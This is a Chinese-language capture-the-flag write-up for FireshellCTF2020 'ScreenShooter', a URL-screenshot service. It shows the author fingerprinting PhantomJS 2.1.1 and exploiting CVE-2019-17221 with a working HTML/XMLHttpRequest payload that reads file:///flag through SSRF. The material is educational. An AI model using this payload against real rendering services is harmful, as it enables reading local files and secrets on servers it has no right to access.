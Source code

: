 # \[FireshellCTF2020]ScreenShooter

## \[FireshellCTF2020]ScreenShooter

## 考点

* `PhantomJS` 2.1.1任意文件读取漏洞
* SSRF

## wp

只有一个功能点，对输入的URL进行访问，然后返回截图。

比如输入百度的URL就会返回它的截图

![](../.gitbook/assets/image-20210125220405236.png)

![](../.gitbook/assets/image-20210125220422610.png)

既然是访问了这个URL，那就生成个URL让它访问，看一下返回的信息

在 https://beeceptor.com/ 上生成一个临时域名，让这个题目访问，可以看到访问的请求头

![](<../.gitbook/assets/image (4).png>)

```
  "user-agent": "Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1",
```

可以看到用的是`PhantomJS`

`PhantomJS` 2.1.1是有任意文件读取漏洞的，CVE-2019-17221。可以使用`XMLHttpRequest`和`file://`去读取本地文件，利用方式如下

1.在自己服务器上放个index.html，内容如下

```html
<!DOCTYPE html>
<html>
<head>
<title>3webdogs</title>
</head>
<body>
<script>
flag=new XMLHttpRequest;
flag.onload=function(){
    document.write(this.responseText)
};
flag.open("GET","file:///flag");
flag.send();
</script>
</body>
</html>
```

2.让题目访问 http://服务器地址/index.html 即可

![](../.gitbook/assets/image-20210125221937478.png)

最后用OCR识别一下就行了

## 小结

1. 关注CVE
